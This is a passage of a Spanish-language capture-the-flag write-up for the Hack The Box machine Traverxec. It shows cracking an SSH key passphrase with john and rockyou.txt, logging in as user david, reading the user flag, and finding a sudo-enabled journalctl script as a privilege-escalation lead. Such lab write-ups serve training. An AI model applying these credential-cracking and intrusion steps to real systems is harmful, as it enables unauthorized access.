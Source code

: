 Procedemos a descifrar la contraseña usando `john` de la siguiente manera

```bash
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec/home/david/.ssh]
└──╼ $/usr/share/john/ssh2john.py id_rsa > david.key
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec/home/david/.ssh]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt david.key 
Will run 2 OpenMP threads
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (/home/nicolasmira101/Documents/HTB/Traverxec/home/david/.ssh/id_rsa)

```

Ahora, nos vamos a conectar al usuario david vía SSH

```bash
┌──[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec/home/david/.ssh]
└──╼ $ssh -i id_rsa david@traverxec.htb
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added 'traverxec.htb,10.10.10.165' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

```

Y como observamos en la siguiente consola, ya nos encontramos dentro del sistema y la flag se encuentra en el archivo `user.txt`

```bash
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt 
7db0b4..........................
```




## Escalamiento de privilegios

Después de realizar la enumeración en los directorios disponibles para el usuario, encontramos un archivo que tiene un comando, que el usuario `david` puede ejecutar con privilegios

```bash
david@traverxec:~$ cd bin/
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```
